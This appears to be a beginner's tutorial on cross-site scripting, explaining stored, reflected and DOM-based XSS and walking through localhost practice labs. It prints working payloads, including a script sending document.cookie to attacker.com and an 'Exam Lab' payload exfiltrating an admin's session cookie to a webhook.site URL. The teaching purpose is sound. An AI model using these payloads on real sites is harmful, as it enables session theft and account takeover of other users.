 # 🔽 XSS Injection

## **Cross-Site Scripting (XSS) - Beginner's Guide**

Cross-Site Scripting (XSS) is a web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. In this guide, we'll explore the basics of XSS and provide insights into prevention techniques.

<figure><img src="https://blog.hubspot.com/hs-fs/hubfs/Google%20Drive%20Integration/draft%20-%20cross%20site%20scripting.png?width=650&#x26;name=draft%20-%20cross%20site%20scripting.png" alt=""><figcaption></figcaption></figure>

### **1. Understanding Cross-Site Scripting (XSS)**

#### **What is XSS?**

XSS occurs when an attacker injects malicious scripts into web pages viewed by others. These scripts can execute in the context of a user's browser, leading to unauthorized actions, data theft, or other malicious activities.

#### **How Does XSS Work?**

1. **User Input Handling:**
   * Web applications accept and display user inputs, such as in search bars or comment sections.
2. **Malicious Input:**
   * An attacker injects scripts (JavaScript) into user-provided input.
3. **Script Execution:**
   * When another user views the affected page, the injected script executes in their browser.
4. **Unauthorized Actions:**
   * The script can steal cookies, session tokens, or perform actions on behalf of the user.

### **2. Types of XSS**

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

#### **Stored XSS:**

* The injected script is permanently stored on the target server and served to users who access the affected page.

```html
<!-- Malicious Comment -->
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

#### **Reflected XSS:**

* The injected script is part of the URL and gets reflected off a web server to the user.

```url
https://vulnerable-site.com/search?query=<script>alert("XSS")</script>
```

#### **DOM-based XSS:**

* The attack occurs entirely on the client side, manipulating the Document Object Model (DOM) of a web page.

```html
<!-- URL: https://vulnerable-site.com/page#<script>alert("DOM XSS")</script> -->
<script>
  // JavaScript on the page reads the fragment and executes the script
  window.location.hash.substr(1); 
</script>
```

## Labs:

### DOM Based&#x20;

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

Consider a simple "add item" website that allows users to input text. Let's examine a potential vulnerability using an injected script:

```
<img src=x onerror="window.location.href='https://tcm-sec.com'">
```

* DOM-based XSS occurs when the client-side script modifies the DOM, leading to the execution of malicious code.
* In the given example, an `<img>` tag is used, and the `onerror` attribute is manipulated to execute JavaScript code.
* When the browser encounters this script, it attempts to load the image specified in the `src` attribute (`x` in this case). If an error occurs during loading (triggered intentionally by `onerror`), the script inside the `onerror` attribute is executed.
* The JavaScript payload in the `onerror` attribute redirects the user's browser to the specified URL (`https://tcm-sec.com`).
* This redirection could be replaced with more harmful actions, such as stealing user session cookies, defacing the website, or performing actions on behalf of the user without their consent

<figure><img src="../../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (249).png" alt=""><figcaption><p>page is redirected </p></figcaption></figure>

### XSS - Stored Lab

Stored Cross-Site Scripting (XSS) is a serious web application vulnerability that allows attackers to inject malicious scripts that are then permanently stored and served to other users. In this section, we will explore a lab environment using Firefox Multi-Account Containers to simulate and understand the implications of Stored XSS.

* Download and install the [Multi-Account Containers](https://addons.mozilla.org/fr/firefox/addon/multi-account-containers/) add-on for Firefox.
* Open a separate container for each session to create isolated environments.

<figure><img src="../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

Open one page of the chal in each container to have two separate sessions

**HTML Injection Test:**

As a preliminary step, inject a simple HTML tag to test if the injected content is stored persistently.

```
<h1>test</h1>
```

<figure><img src="../../../.gitbook/assets/image (250).png" alt=""><figcaption><p>injection html OK</p></figcaption></figure>

Observe that the injected HTML tag remains on the page after refreshing the container.

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption><p>it's a stored !</p></figcaption></figure>

so now we can go and test out some more interesting stuff:

**JavaScript Execution Test:**

In a different container, we inject a JavaScript script to prompt a message.

```
<script>prompt(1)</script>
```

<figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

Notice that the script executes, but upon submission, the page refreshes, indicating that the input is being rendered rather than executed.

and funny thing is that if we go on container 2 and refresh, we will have the prompt function executed and so will every user that loads the page:

<figure><img src="../../../.gitbook/assets/image (254).png" alt=""><figcaption><p>the 2 are loading </p></figcaption></figure>

now let's simulate stealing sensitive data from a user:

**Simulating Cookie Theft:**

Download and install the Cookie Editor add-on for Firefox to facilitate the capture and manipulation of cookies.

<figure><img src="../../../.gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

In Container 2, inject a script to alert the user's cookie.

```
<script>alert(document.cookie)</script>
```

* Observe that the script executed in Container 2 triggers an alert with the user's cookie.
* This demonstrates how a malicious actor could potentially steal sensitive user data, such as session cookies, leading to unauthorized access.

<figure><img src="../../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

### Exam Lab

In this lab, we will explore a scenario where an attacker aims to steal an admin's session cookie through Cross-Site Scripting (XSS). To simulate this, we'll open two containers in Firefox—one for normal browsing and another for interacting with an admin. The objective is to inject a malicious script that sends the admin's session cookie to a webhook site.

Open one container for regular browsing and another for simulating an admin interaction. Navigate to the URL `http://localhost/labs/x0x03_admin.php` in the admin container.

There are plenty of ways we can inject some code to steal a cookie, let's list a few:

Set up a webhook URL at `https://webhook.site/` to capture the stolen session cookie.

<figure><img src="../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

```
<script>var i = new Image;i.src="https://webhook.site/c014X.X.X.X.X..."+document.cookie;</script>
```

<figure><img src="../../../.gitbook/assets/image (258).png" alt=""><figcaption><p>add /? </p></figcaption></figure>

This script creates an image element (`<img>`) and sets its source to the webhook URL with the appended admin session cookie.

The `/` followed by `?` is used to denote the start of the query parameters in a URL. In this case, it's appending the `document.cookie` value as a query parameter to the URL.

Explanation:

1. `https://webhook.site/c014X.X.X.X.X.../` is the base URL of the webhook.
2. `?` signifies the beginning of the query parameters.
3. `+document.cookie` adds the value of the `document.cookie` property as a query parameter. The `+` here is used for string concatenation.

and when we refresh our admin page (or the admin interacts with our payload), we get the response in webhook:

<figure><img src="../../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>
